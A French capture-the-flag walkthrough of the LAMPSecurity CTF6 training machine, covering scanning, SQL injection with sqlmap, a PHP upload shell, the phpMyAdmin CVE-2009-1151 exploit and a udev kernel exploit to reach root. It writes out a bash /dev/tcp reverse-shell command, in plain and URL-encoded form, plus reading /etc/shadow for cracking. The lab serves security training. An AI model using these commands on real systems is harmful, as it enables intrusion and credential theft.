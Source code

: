 ```yaml
---
description: 'Walkthrough de la machine LAMPSecurity: CTF6'
---
```


# LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6  
**Date de sortie :** 29 Juin 2009  
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity_ctf6.zip/download)  
**Niveau :** Facile  
**Objectif\(s\) :** obtenir un "root"  
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).  
These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Votre cible, si vous l'acceptez sera désignée par `netdiscovery` :

![](../../.gitbook/assets/01b81fb29800416a48b95b8bf4067734.png)

On scanne les services de la belle, comme d'habitude avec `nmap` :

![](../../.gitbook/assets/0d2df19ee103a6d59c16b63c2414b097.png)

Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP \(port 80\)

Tout en commençant la reconnaissance manuelle on peut tout de suite lancer un `nikto` dont voici les résultats :

![](../../.gitbook/assets/5bb8c42e703fa254522f24bf8e9ef5f2.png)

Plusieurs URLs intéressants à ne pas oublier de visiter après notre petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. On remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées \(PHP, MySQL, CenOS\) et pour terminer des noms/prénoms du staff :

![](../../.gitbook/assets/77b6af492db3c6a94a786f674f5a3463.png)

Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

![](../../.gitbook/assets/f92bbcc2d2a54032c51cad3570a710b7.png)

Les différentes URLs sont intéressantes mais sans doute facultatives : on y retrouve un script SQL qui permet de connaitre des informations sur la base de données \(mais bon on va pas se mentir `sqlmap` en aura pas besoin\), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :

![](../../.gitbook/assets/906bd4b1971cd3b24146d53e51a32111.png)

### Serveur HTTP \(port 443\)

Il s'agit en fait du même si que celui présent sur le port 80, déçu 😞 .

## Exploitation

### Injection SQL

Ici on ne s'embête pas, `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :

![](../../.gitbook/assets/e03d1b4b831468edb37511112361e8de.png)

Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais on récupère à la place le mot de passe de mysql :

![](../../.gitbook/assets/84c1dc7adcaefe8bfcfcdfa9d6102cb6.png)

### Injection de code

On s'authentifie grâce à notre compte fraîchement récupéré, puis nous voyons qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :

{% hint style="warning" %}
`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`
{% endhint %}

On continue avec l'option de joindre un fichier avec l’événement \(ici qui contient un script PHP appelant la méthode `phpinfo()`\) :

![](../../.gitbook/assets/894c71013775256a8a0b8b4b83816b80.png)

Il suffit ensuite d'aller directement sur le lien de l'image et :

![](../../.gitbook/assets/59c2f02d7b413d2a39e0aba08583bc3d.png)

Vous désirez bien un peu de `msfvenom` ensuite ?

![](../../.gitbook/assets/29b9c5598bb7347964faa9cde9fe5d6b.png)

Nous voici dans la place avec notre shell limité :

![](../../.gitbook/assets/7658ea9a3c18402e3e64b74f31c045b5.png)

### PhpMyAdmin \(CVE-2009-1151\)

Etant donné que nous avions déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :

![](../../.gitbook/assets/5a42613d2a939a338918aa8fd4338fc7.png)

J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :  
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :

![](../../.gitbook/assets/b72bd4009a7cff516bf1eb8721e34099.png)

Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :

![](../../.gitbook/assets/9b54071bf95d65cd25cf302301f3610d.png)

## Élévation de privilèges

On récupère la version du noyau afin de voir s'il est possible de l'exploiter :

![](../../.gitbook/assets/ae79dd5de8576224129892d479c3555d.png)

Bonne nouvelle, une recherche sous Google nous indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. On récupère donc l'exploit \([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)\) puis on l'exécute :

![](../../.gitbook/assets/770fdc869b87171154e9bb6fa46196f1.png)

Nous sommes "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela nous va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple \(dans le cas où on serait passé à côté de la faille web\) :

![](../../.gitbook/assets/81f6ff36c457303f43ed188bb1ee9946.png)

Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".



